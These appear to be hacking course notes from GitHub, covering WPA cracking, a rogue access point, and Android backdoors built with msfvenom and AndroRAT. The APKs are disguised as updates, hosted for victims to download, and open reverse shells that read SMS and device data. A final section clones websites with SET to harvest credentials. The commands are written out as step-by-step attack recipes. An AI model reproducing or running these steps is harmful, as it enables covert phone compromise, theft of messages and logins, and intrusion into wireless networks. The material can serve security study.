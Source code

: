 ## Crack a WPA Network
- Fern Wifi Cracker
```bash
fern-wifi-cracker > scan for access points > WPA > Select one > Browse > Select wordlist > Click wifi attack
```


## Create a Rogue Access Point
-  Create_ap
```bash
    cd create_ap
    create_ap wirelessInterface interfaceInternet nameRogue
    sudo bettercap -X -I wirelessInterface -S NONE --proxy --no-discovery
```

----

# Module 17: Hacking Mobile Platforms
##   Hack an Android Device by Creating Binary Payloads (create malicious APK)

-  msfvenom
```bash
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik lhost=IP R > ./backdoor.apk
cp /root/Desktop/backdoor.apk /var/www/html/share
service postgresql start
use exploit/multi/handler
```
On Android:
	- http://IP/share/ >  download the backdoor.apk > execute it

- AndroRAT
```bash
cd androRAT
pyhton3 androRAT.py --build -i IPattacker -p port -o update.apk
cp /home/attacker/AndroRAT/update.apk /var/www/html/share
service apache2 start

# waiting for connections:
python3 androRAT.py --shell -i 0.0.0.0 -p port

# transfer it to Android machine and execute it
deviceInfo
getSMS inbox
getMACAddress
```

##   Harvester Users' Credentials using the Social-Engineer Toolkit (SET)
- SET
```bash
setoolkit > social-engineering attacks > website attack vectors > credential harvester attack method > site cloner
```
